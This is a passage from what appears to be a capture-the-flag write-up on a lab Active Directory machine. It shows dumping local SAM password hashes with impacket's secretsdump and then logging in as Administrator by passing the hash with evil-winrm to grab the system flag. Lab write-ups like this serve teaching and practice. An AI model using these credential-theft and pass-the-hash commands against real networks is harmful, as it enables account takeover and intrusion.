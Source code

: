 Great! We can see that this user has write access to SMB as the administrator. Let's dump the hashes for this user.

### Hash Dump

```
python3 /opt/impacket/examples/secretsdump.py VULNNET-RST.local/a-whitehat:***************@$IP
```

```
*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
```

### Logging in as Root

```
evil-winrm -i $IP -u Administrator -H [REDACTED]  
```

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```

Now we can get the system flag!
